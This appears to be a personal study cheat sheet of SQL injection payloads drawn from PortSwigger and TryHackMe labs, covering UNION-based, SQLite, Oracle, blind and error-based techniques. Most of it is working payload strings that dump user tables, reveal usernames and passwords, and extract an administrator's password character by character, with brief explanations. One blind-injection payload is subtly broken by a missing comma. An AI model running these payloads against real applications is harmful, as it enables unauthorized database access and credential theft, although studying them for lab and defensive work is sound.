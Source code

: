 - `';--+-`
- `'--+-`
- `'` - if you get status code 500 the app might be vulnerable to SQLi.
- `admin123' UNION SELECT 1,2,3 where database() like 's%';-- -`
- `' UNION SELECT database(),concat(user, ":", password)  FROM users;-- -`
- `' UNION SELECT database(),table_name FROM information_schema.tables;-- -`
- `' UNION SELECT database(),column_name FROM information_schema.columns WHERE table_name='users';-- -`
- `' UNION SELECT @@version,2;-- -`
- Time: `' UNION SELECT SLEEP(5),2;-- -`
- find the number of columns: `' UNION SELECT NULL,NULL;-- -`
- ` UNION SELECT user,password from users;-- -`
- [SQLi PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)
- [SQLi Union Attacks PortSwigger](https://portswigger.net/web-security/sql-injection/union-attacks) 
- [SQLi THM](https://tryhackme.com/r/room/sqlinjectionlm)
- [SQLi cheat sheet PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## SQLite
- keywords are **case insensitive**
- `' Union Select name from sqlite_master where type='table`
- dump all the tables: `' Union Select Group_concat(name, ', ') from sqlite_master where type='table`
- ` Union Select Group_concat(username || ':' || password, ', ') from admintable'`
- dump structure of table: ` Union Select sql from sqlite_master where name='admintable`
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)


### Portswigger
### Listing the contents of an Oracle database

On Oracle, you can find the same information as follows:

- You can list tables by querying `all_tables`:
    `SELECT * FROM all_tables`
- You can list columns by querying `all_tab_columns`:
    `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`

- Oracle requires a `FROM` clause in every `SELECT`. If you want to return a constant, expression, or function result without querying a real table, you use `DUAL`. via ChatGPT
	-  example: `' UNION SELECT NULL,NULL FROM DUAL --`
- [ALL_TABLES docs](https://docs.oracle.com/en/database/oracle/oracle-database/19/refrn/ALL_TABLES.html)
-  you can concat strings with `||`

### Blind SQLi

- https://portswigger.net/web-security/sql-injection/blind
- no error message is displayed on the page, but a message like "Welcome back" or "Success" displayed whenever a row is returned from the SQL query. 
- check if table `users` exists:
- `' OR (SELECT 'a' FROM users LIMIT 1)='a` 
- `' OR SUBSTRING((SELECT password FROM users WHERE username='administator')1,1)='a`
	-  takes the first letter of `administrator`'s password and checks if it's equal to `a`
	-  you can apply comparison operations like `SUBSTRING((SELECT password from users WHERE username='administrator'),1,1)>'a`
- determine length of password:
	- `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`


### Error-based SQLi
- `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`
	- if username = 'administrator' and password starts with `m` -> output error
	- else app behaves normally.
- check [Portswagger cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

### Visible error-based SQL injection
- `' AND 1=CAST((SELECT password FROM users LIMIT 1) AS INT)--`
	- if the database is misconfigured it should throw an error like: ERROR: invalid input syntax for type integer: "2x2i4tqll4ctr686jsx2".
	- the value between the double quotes is the password.